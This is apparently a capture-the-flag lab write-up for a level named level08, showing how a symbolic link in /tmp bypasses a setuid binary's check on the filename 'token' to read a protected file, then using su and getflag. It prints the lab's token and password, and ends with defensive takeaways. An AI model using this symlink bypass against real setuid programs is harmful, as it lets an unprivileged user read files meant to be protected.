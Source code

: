 # Level08 Documentation

## Objective
Retrieve the token hidden in an inaccessible file named `token` by bypassing filename validation.

---

## Approach & Tools
- **Technique**: Symbolic link filename bypass
- **Commands**: `ln`, `su`, `getflag`,
---

## Step-by-Step Solution
once we log into level08 account we find a ```level08```nad ```token``` files
```bash
ls -la
```
#### output 
```bash
-rwsr-s---+ 1 flag08  level08 8617 Mar 5 2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

#### 1. Test Binary Behavior
The binary restricts access to files named "token":
```bash
./level08 token
```
#### Output:
```bash
You may not access 'token'
```
### 2. Bypass Filename Check
Create a symbolic link with a different name:
```bash
ln -s /home/user/level08/token /tmp/maflag
```
### 4. Read Through Symlink
```bash
./level08 /tmp/maflag
```
#### Output:
```bash
quif5eloekouj29ke0vouxean
```
### 5. Retrieve Level09 Token
```bash
su flag08
Password: quif5eloekouj29ke0vouxean
getflag
```
#### Output:
```bash
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
### Key Takeaways
* Symbolic Links Bypass Checks: Changing the apparent filename can bypass simple string checks

* Permission Inheritance: Symlinks maintain original file permissions

* Defensive Programming: Always verify file contents, not just names